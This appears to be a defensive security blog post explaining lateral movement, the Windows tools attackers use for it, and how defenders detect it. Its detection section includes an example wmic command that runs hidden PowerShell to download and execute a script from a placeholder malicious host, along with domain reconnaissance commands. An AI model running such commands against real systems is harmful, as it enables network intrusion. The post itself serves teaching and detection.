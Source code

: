 ```yaml
---
title: "Lateral Movement"
date: 2025-05-02
tags: ["malware", "strategy", "cybersecurity"]
---
```


Once a hacker has gained access to a system through their path of choice, the next usual step is to try and gain access to other—usually more high-profile machines on the network. This process is known as **lateral movement**, and it can be done in a variety of ways. To be more specific about *why* hackers do this, let’s talk about the advantages of gaining access to other machines.

### Why?

- Gain access to more privileged accounts  
- Reach valuable data (like on a file server)  
- Spread persistence across the network (creating re-entry points or backdoors)  

Having skill in lateral movement is arguably one of the most important things for a hacker. It’s their ability to *move* through the environment once they get in, and it must be done with precision and stealth. It’s also where many attackers get caught, since they can leave plenty of breadcrumbs along the way.

Sometimes they’ll just get into a system and monitor common processes and behaviors for a while. This helps them build a plan for how best to navigate the network undetected. Usually, they’ll use techniques like LotL (Living off the Land)—[which I wrote about here](../living-off-the-land-attack/)—to stay hidden.

### How?

Hackers usually use LOLBins to evade detection. Some of the tools are as follows:

- **PsExec**  
A remote command execution tool in SysInternals. Often used to run or spawn shells on other machines.

- **WMI (`wmic`)**  
Used to query remote systems or start processes across the network.

- **RDP**  
Used to log in like a real user, assuming credentials have been found or stolen.

- **WinRM**  
Remote PowerShell execution used in enterprise environments.

### Detection

Detecting lateral movement is tricky because it uses legitimate, trusted tools and real credentials. However, defenders can look for patterns that suggest something suspicious is happening under the surface.

---

#### 1. Unusual Parent-Child Process Relationships

When a hacker is on a machine, they may be using LOLBins, but the **way** those tools are used can give them away. One way defenders detect this is by looking at **which process started another**—also known as parent-child process relationships.

Let’s say we see this process chain in a system:
```bash
winword.exe → cmd.exe → powershell.exe → wmic.exe
```
- `winword.exe → cmd.exe` implies there was likely a macro embedded in a Word document (probably from a phishing email).
- That macro launches `cmd.exe`, which runs `powershell.exe`.
- PowerShell can then download a payload, and finally `wmic.exe` is used for the **lateral movement**.

Here’s an example command that might be executed via `wmic.exe`:
```powershell
wmic /node:"10.0.0.12" process call create "powershell -NoP -W Hidden -C IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')"
```
- `/node:"10.0.0.12"` → Targets another machine on the network.  
- `process call create` → Asks that machine to run a new process.  
- `"powershell -NoP -W Hidden -C IEX(...)"` → Starts a hidden PowerShell instance that:  
  - `-NoP`: No profile (faster, stealthier)  
  - `-W Hidden`: Hides the PowerShell window  
  - `IEX(...)`: Downloads and runs a malicious PowerShell script in memory  

---

#### 2. New or Rare Use of Lateral Tools

Tools like `PsExec`, `wmic`, `winrm`, and PowerShell remoting are normally used by system admins—but only in certain environments and contexts. Defenders might set up alerts for their use in unexpected locations, or flag activity that doesn’t match the usual user behavior. Sudden or anomalous use of these tools is a red flag that lateral movement could be underway.

---

#### 3. Login Anomalies

Things like **multiple login attempts**, **a low-privilege user suddenly logging into many machines**, or **remote logins at odd hours** (e.g., an HR employee remoting in at 3 AM) are classic indicators of lateral movement.

---

#### 4. Suspicious Recon Activity

These commands are often used to **map the network** and **identify valuable targets**:
```
net view /domain
net use
net group "Domain Admins" /domain
```
They aren’t commands a normal user would ever run, and they often precede lateral movement.

---